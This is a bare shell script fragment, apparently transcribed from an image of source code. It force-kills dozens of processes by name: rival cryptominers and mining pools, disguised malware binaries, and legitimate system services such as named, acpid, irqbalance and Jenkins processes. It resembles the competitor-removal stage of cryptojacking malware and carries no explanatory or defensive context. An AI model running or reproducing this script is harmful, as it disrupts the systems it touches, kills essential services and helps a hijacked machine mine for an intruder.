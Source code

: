```
	ps auxf|grep -v grep|grep "stratum.f2pool.com:8888"|awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmrpool.eu" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmrig" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmrigDaemon" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "xmrigMiner" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "/var/tmp/java" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "ddgs" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "qW3xT" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "t00ls.ru" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "/var/tmp/sustes" | awk '{print $2}'|xargs kill -9
	ps auxf|grep -v grep|grep "ld-linux" | awk '{print $2}'|xargs kill -9

	ps auxf|grep xiaoyao| awk '{print $2}'|xargs kill -9
	ps auxf|grep Donald| awk '{print $2}'|xargs kill -9
	ps auxf|grep Macron| awk '{print $2}'|xargs kill -9
	ps auxf|grep ld-linux| awk '{print $2}'|xargs kill -9

	ps auxf|grep named| awk '{print $2}'|xargs kill -9
	ps auxf|grep kernelcfg| awk '{print $2}'|xargs kill -9
	ps auxf|grep xiaoxue| awk '{print $2}'|xargs kill -9
	ps auxf|grep kernelupgrade| awk '{print $2}'|xargs kill -9
	ps auxf|grep kernelorg| awk '{print $2}'|xargs kill -9
	ps auxf|grep kernelupdates| awk '{print $2}'|xargs kill -9

	ps ax|grep var|grep lib|grep jenkins|grep -v httpPort|grep -v headless|grep "\-c"|xargs kill -9
	ps ax|grep -o './[0-9]* -c'| xargs pkill -f

	pkill -f /usr/bin/.sshd
	pkill -f acpid
	pkill -f Donald
	pkill -f Macron
	pkill -f AnXqV.yam
	pkill -f apaceha
	pkill -f askdljlqw
	pkill -f bashe
	pkill -f bashf
	pkill -f bashg
	pkill -f bashh
	pkill -f bashx
	pkill -f BI5zj
	pkill -f biosetjenkins
	pkill -f bonn.sh
	pkill -f bonns
	pkill -f conn.sh
	pkill -f conns
	pkill -f cryptonight
	pkill -f crypto-pool
	pkill -f ddg.2011
	pkill -f deamon
	pkill -f disk_genius
	pkill -f donns
	pkill -f Duck.sh
	pkill -f gddr
	pkill -f Guard.sh
	pkill -f i586
	pkill -f icb5o
	pkill -f ir29xc1
	pkill -f irqba2anc1
	pkill -f irqba5xnc1
	pkill -f irqbalanc1
	pkill -f irqbalance
	pkill -f irqbnc1
	pkill -f JnKihGjn
```